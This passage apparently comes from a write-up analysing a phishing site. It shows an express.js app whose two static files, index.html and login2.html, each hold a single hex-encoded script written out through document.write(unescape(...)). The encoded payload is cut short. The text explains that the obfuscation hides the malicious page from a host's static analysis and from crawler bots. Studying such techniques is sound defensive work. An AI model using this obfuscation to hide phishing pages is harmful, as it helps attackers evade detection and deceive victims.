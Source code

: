     <img src="./images/ms2.png" width="650px"></img>
</p>

#### The code 
This one is a simple hello-world express.js site serving two static files `index.html` and `login2.html`. The files each contain a single line of code. 

```html
<!-- public/index.html -->

<script type='text/javascript'> str='x3Cx21x44x4Fx43x54x59x.....2Fx68x74x6Dx6Cx3E'; document.write(unescape(str.replace(/x/g,'%'))); </script>
```
```html
<!-- public/login2.html -->

<script type='text/javascript'> str='x3Cx21x44x4Fx43x54x59x.....2Fx68x74x6Dx6Cx3E'; document.write(unescape(str.replace(/x/g,'%'))); </script>
```

This code obfuscated, encoded to hide its contents - in case the we or another host is doing static analysis during deployment. Most crawler bots do not execute javascript so the contents would be obfuscated from them also. When loaded in a victim's browser, `document.write` renders those malicious jQuery `$`'s. 


<p align="center">